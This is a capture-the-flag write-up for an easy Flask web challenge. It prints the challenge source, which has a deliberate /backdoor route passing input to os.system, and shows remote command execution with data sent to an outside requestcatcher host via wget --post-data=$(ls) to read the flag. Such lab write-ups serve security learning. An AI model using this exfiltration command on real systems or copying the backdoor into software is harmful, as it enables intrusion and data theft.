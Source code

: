 # Cig 0
### Web - Easy

- Looks like a simple Flask app! let's dig deeper into it
- ![9a960d18fed7b56a221498bdd3d0cd26.png](9a960d18fed7b56a221498bdd3d0cd26.png)

<details>
<summary>Reveal Code</summary>

```python

from flask import Flask, render_template, request, redirect
import os

app = Flask(\_\_name\_\_)


@app.route("/setenv", methods=\["GET"\])
def setenv():
    var = request.args.get("var")
    value = request.args.get("value")
    if var is None or var is None:
        return redirect("/")

    os.environ\[var\] = value
    # Harmless logging technique
    os.system("env > /tmp/env.txt")
    return redirect("/")


@app.route("/backdoor", methods=\["GET"\])
def backdoor():
    cmd = request.args.get("cmd")
    if cmd is None:
        return redirect("/")

    os.system(cmd)
    return redirect("/")


@app.route("/")
def show\_source\_code():
    with open(\_\_file\_\_, "r") as f:
        source_code = f.read()
    return render\_template("hello.html", source\_code=source_code)


if \_\_name\_\_ == "\_\_main\_\_":
    port = int(os.environ.get("PORT", 12000))
    app.run(debug=False, host="0.0.0.0", port=port)
```
</details>

- By analyzing the code we see `/backdoor` and `/setenv` both are useful to get RCE!
- in this chall I didn't use `/setenv` as i found and easier way to quickly solve it!
- Simply type 2 commands in `/backdoor?cmd=CMD`, the first will be finding the flag, second will be using `wget` to send data to my requestcatcher (curl wasn't installed probably as it failed) but you can actually combine it in 1 command!
- CMD: `wget --post-data=$(ls) ayham.requestcatcher.com`
- ![2f748010851ae359722a633f0dcbcab9.png](2f748010851ae359722a633f0dcbcab9.png)
- Now let's try to `ls /`
- ![d9739cc65a86d5d42a3ee4c85ba6b229.png](d9739cc65a86d5d42a3ee4c85ba6b229.png)
- hmmm! let's try environement vars! `env` but that has 1 issue, it will only send first line, we can use like `tr` or `sed` to join lines but I simply tried `echo $FLAG` and it worked!
- ![1d4f0bc922981917b37628725d68a08c.png](1d4f0bc922981917b37628725d68a08c.png)
- VOILAAA!!